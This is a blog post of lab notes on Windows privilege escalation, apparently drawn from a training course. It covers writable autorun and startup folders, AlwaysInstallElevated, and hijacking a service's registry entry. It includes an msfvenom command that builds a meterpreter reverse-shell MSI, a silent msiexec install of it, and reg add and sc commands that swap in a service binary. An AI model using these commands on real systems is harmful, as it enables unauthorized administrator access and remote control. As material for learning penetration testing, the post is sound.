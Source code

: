 ```yaml
---
layout: post
title: "Windows PrivEsc"
date:   2020-05-23 10:00:00
---
```

Here some of classic examples of windows priv esc (from Windows PrivEsc Arena/TCM)

# Windows - Accesschk
Accesschk is a useful console program for viewing the permissions on files, registry keys, services...
By combining the option:
{% highlight bash %}
-w : write access
-u : supress errors
-v : verbose
{% endhighlight %}
You can find directories in which you have write access with elevated privileges.

# Windows - Autorun
Autorun or Startup programs are services managed by the Service Manager
{% highlight bash %}
C:\Program Files\Autorun Program
{% endhighlight %}
If the permission for Everyone is FILE_ALL_ACCESS, so you just need to drop your program and wait for the admin to log in.

# Windows - Startup
This is the same thing as before, checking ACL permission:
{% highlight bash %}
iacls.exe C:\ProgramData\Microsoft\Windows\Start Menu\Prgrams\Startup
{% endhighlight %}
If the output is on full access (F) for BUILTIN\Users, then drop your program to do a reverse shell.
The target need to be logon as Administrator for the privilege access.

# Windows - Always Installed Elevated
One good way to know is the Installed Elevated feature is enable is to do:

<img src="{{ site.baseurl }}/assets/img/win_escpriv/alwaysinstalled.png">
{% highlight bash %}
HKLM: H_KEY_Local_Machine
HKCU: H_KEY_Current_User
{% endhighlight %}
It represents the configuration related to the local machine and to the current user.

So what you need to do is generate a msi package:
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your ip] -f msi -o setup.msi
{% endhighlight %}

And on the Windows machine execute it in background:
{% highlight bash %}
msiexec /quiet /qn /i C:\temp\setup.msi
/qn: no UI
/i: normal installation
/quiet: quiet mode (no user interaction)
{% endhighlight %}

# Windows Registry
In order to verify the fullControl privilege on the services, with powershell you can check:
{% highlight bash %}
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
{% endhighlight %}
Should display: NT AUTHORITY\INTERACTIVE
That means you can create your custom service, replace the original one and execute it:
{% highlight bash %}
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /d c:\temp\service.exe /f
/v ImagePath: path of the service (this is the value)
/d for the data of the value
/f  add the registry key without prompting for confirmation
{% endhighlight %}
And then you can execute your service:
{% highlight bash %}
sc start regsvc
{% endhighlight %}
<img src="{{ site.baseurl }}/assets/img/win_escpriv/service1.png">
<img src="{{ site.baseurl }}/assets/img/win_escpriv/service2.png">
